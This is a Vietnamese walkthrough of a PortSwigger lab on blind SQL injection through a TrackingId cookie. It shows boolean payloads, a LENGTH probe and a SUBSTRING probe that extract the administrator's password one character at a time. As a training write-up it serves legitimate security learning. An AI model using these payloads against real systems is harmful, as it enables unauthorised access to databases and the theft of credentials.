 # **Lab: Blind SQL injection with conditional responses**

>  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. 

>  The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `"Welcome back"` message in the page if the query returns any rows. 

>  The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user. 

 > To solve the lab, log in as the `administrator` user. 

 # **Solution**

 Khi truy cập một trang bất kì, ở đây mình chọn `Lifestyle` sẽ thấy dòng chữ `Welcome back` xuất hiện.

```
https://0abd0040038426c2817a667700da002f.web-security-academy.net/filter?category=Lifestyle
```

Thử gây lỗi syntax trong câu truy vấn SQL:

```
https://0abd0040038426c2817a667700da002f.web-security-academy.net/filter?category=Lifestyle'
```

Sau khi chèn thêm `'` vào tham số bộ lọc qua URL ta thấy không có thông báo hay mã lỗi được trả về. Đồng nghĩa việc sử dụng kỹ thuật UNION attack không hiệu quả.

Sử dụng công cụ Burpsuite để đọc gói tin req và res, ta thấy dòng chữ `Welcome back!` xuất hiện sau khi có giá trị TrackingId được gán trong Cookie.  

Có thể dùng Burpsuite hoặc add-ons cookies-editor để sửa giá trị `TrackingId` nằm trong cookie.

```
Cookie: TrackingId=8C5iKpkhY4rBPaNu; session=PwbaTKBA1qGNIv3fqPoC06HWxBjqiDjl
```

```
Cookie: TrackingId=8C5iKpkhY4rBPaNu' AND '1'='1; session=PwbaTKBA1qGNIv3fqPoC06HWxBjqiDjl
```

```
Cookie: TrackingId=8C5iKpkhY4rBPaNu' AND '1'='2; session=PwbaTKBA1qGNIv3fqPoC06HWxBjqiDjl
```

Giả sử câu truy vấn kiểm tra TrackingId có thể là:

```
SELECT id FROM TRACKED WHERE id=TrackingId ...
```

Vậy nên khi ta thêm một toán tử AND và điều kiện đằng sau thì dòng chữ `Welcome back!` sẽ chỉ xuất hiện khi cả 2 điều kiện đồng thời là `true`.

Ta sẽ thực hiện khai thác từ điều kiện đi kèm vối `TrackingId`.

Ta đã biết được web có một bảng `users` trong đó có 2 cột là `username` và `password`. Mục tiêu là đánh cắp mật khẩu tài khoản có username là `administrator`.

```
Cookie: TrackingId=8C5iKpkhY4rBPaNu' AND LENGTH((SELECT password FROM users WHERE username='administrator'))='20; session=PwbaTKBA1qGNIv3fqPoC06HWxBjqiDjl
```

Trong điều kiện trên, mình dò đoán độ dài mật khẩu tài khoản `administrator` bằng cách so sánh với `'1`. Nếu bằng 1 thì sẽ hiện `Welcome back!`, ngược lại thì sẽ không hiện.

Từ đó ta tăng dần giá trị từ bắt đầu từ 1 tới khi xuất hiện `Welcome back` trong response.

Ta xác định được độ dài mật khẩu tài khoản `administrator` là 20.

Vì chỉ có thể dùng toán tử logic để lấy được đáp án mong muốn nên ta sẽ phải tìm từng kí tự trong mật khẩu tài khoản `administrator`

```
Cookie: TrackingId=8C5iKpkhY4rBPaNu' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a; session=PwbaTKBA1qGNIv3fqPoC06HWxBjqiDjl
```

Sử dụng hàm SUBSTRING để lấy từng kí tự trong password, so sánh với từng kí tự cho tới khi đúng. Thực hiện lặp lại đối với từng vị trí của kí tự trong password rồi ghép lại một mật khẩu chính xác dài 20 kí tự. Ta được:

> qxgbrljincsv16sq984t

DONE~~~

![image](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcShyMxL5MXtUxmsRDnSiWLCIpIiqH9IiAkzSg&s)
